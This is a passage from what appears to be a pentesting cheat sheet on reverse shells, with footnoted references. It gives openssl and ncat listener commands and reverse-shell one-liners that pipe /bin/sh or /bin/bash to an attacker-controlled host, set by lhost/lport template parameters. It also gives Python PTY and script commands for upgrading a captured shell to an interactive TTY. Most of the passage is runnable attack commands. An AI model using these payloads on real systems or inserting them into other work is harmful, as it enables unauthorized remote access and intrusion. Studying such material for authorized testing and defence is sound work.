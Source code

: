 #### Listener

```sh
openssl s_server -key key.pem -cert cert.pem -port {{< param lport >}}
```
{{<details "Parameters"></details>}}

#### Reverse Shell

```sh
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -connect {{< param lhost >}}:{{< param lport >}} > /tmp/s 2> /dev/null; rm /tmp/s
```

{{<details "Parameters"></details>}}

### Ncat [^ncat]

#### Listener

```sh
ncat -nvlp {{< param lport >}} --ssl
```

#### Reverse Shell

```sh
ncat -nv {{< param lhost >}} {{< param lport >}} -e /bin/bash --ssl
```

{{<details "Parameters"></details>}}

## Upgrade Shells

More often than not, reverse, or bind shells are shells with limited interactive capabilities. Meaning no job control, no auto-completion, no `STDERR` output, and, most important, poor signal handling and limited commands support. To fully leverage the shell it is convenient to upgrade to an interactive TTY with extended features.

{{<hint info>}}
To check if the shell is a TTY shell use the `tty` command.
{{</hint>}}

### Shell to Bash

Upgrade from shell to bash.

```sh
SHELL=/bin/bash script -q /dev/null
```

### Python PTY Module [^python-pty-module]

Spawn `/bin/bash` using [Python's PTY module](https://docs.python.org/3/library/pty.html), and connect the controlling shell with its standard I/O.

```sh
python -c 'import pty; pty.spawn("/bin/bash")'
```


[^pentestmonkey]: “Reverse Shell Cheat Sheet | Pentestmonkey.” Pentestmonkey | Taking the Monkey Work out of Pentesting, http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet.
[^nc-openbsd]: “Nc.Openbsd.” Man Pages Archive - Manned.Org, https://manned.org/nc.openbsd/6f0a5cf9.
[^swisskyrepo-shells]: swisskyrepo. “PayloadsAllTheThings/Reverse Shell Cheatsheet.Md at Master · Swisskyrepo/PayloadsAllTheThings · GitHub.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md.
[^groovy-shell]: Frohoff, Chris. “Pure Groovy/Java Reverse Shell .” Gist · GitHub, 262588213843476, https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76.
[^cert-pinning]: “Certificate and Public Key Pinning Control.” OWASP Foundation | Open Source Foundation for Application Security, https://owasp.org/www-community/controls/Certificate_and_Public_Key_Pinning.
[^openssl]: OpenSSL Foundation, Inc. “/Docs/Manmaster/Man1/Openssl.Html.” OpenSSL.Org, https://www.openssl.org/docs/manmaster/man1/openssl.html.
[^ncat]: “Ncat Users’ Guide.” Nmap: The Network Mapper - Free Security Scanner, https://nmap.org/ncat/guide/index.html.
[^terminal-shell-console]: “What Is the Exact Difference between a ‘Terminal’, a ‘Shell’, a ‘tty’ and a ‘Console’? .” Unix & Linux Stack Exchange, https://unix.stackexchange.com/a/4132/356054.
[^python-pty-module]: “Pty — Pseudo-Terminal Utilities.” 3.8.3 Documentation, https://docs.python.org/3/library/pty.html.
[^stty]: “Stty.” Linux Manual Page, https://man7.org/linux/man-pages/man1/stty.1.html.